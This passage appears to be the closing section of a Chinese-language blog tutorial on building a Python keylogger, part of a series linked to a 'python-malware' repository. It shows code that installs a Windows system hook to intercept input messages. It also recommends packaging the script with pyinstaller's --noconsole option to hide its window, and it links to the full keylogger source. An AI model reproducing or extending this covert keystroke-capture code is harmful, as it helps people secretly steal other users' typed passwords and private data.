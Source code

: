 ## 六、last

创建`hook`类实例，创建指针`ptr`，安装钩子`install_hook(ptr)`，等待钩子截获系统信息。

```python
hook = hook()
ptr = HOOKPROC(hook_procedure)
hook.install_hook(ptr)
msg = MSG()
user32.GetMessageA(byref(msg), 0, 0, 0)
```

用pyinstaller将文件打包成exe，可以用参数-w/--noconsole来隐藏dos窗口

解决part1的cpu占用率高问题，但未解决右键复制获取剪粘板数据。

![part2_1](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/2_1.png)

![part2_2](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/2_2.png)


源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/part2/keylogger.py)